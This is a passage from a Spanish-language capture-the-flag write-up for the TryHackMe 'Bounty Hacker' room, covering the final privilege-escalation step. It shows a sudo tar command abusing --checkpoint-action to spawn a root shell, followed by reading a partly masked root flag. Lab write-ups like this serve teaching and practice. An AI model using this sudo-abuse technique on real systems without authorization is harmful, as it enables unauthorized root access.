 ```bash
l**@bountyhacker:~/Desktop$     sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
tar: Removing leading `/' from member names

# whoami
root
```

Tras conseguir acceder como root, buscaremos los archivos que puedan existir en la carpeta root.

```bash
# cd root
# ls
root.txt
```

Por último haremos un cat al archivo para obtener la flag del root.

```bash
cat root.txt
THM{80UN******K3r}
```

### 

## Contact

[📧 danielruizraposo02@gmail.com](mailto:danielruizraposo02@mail.com)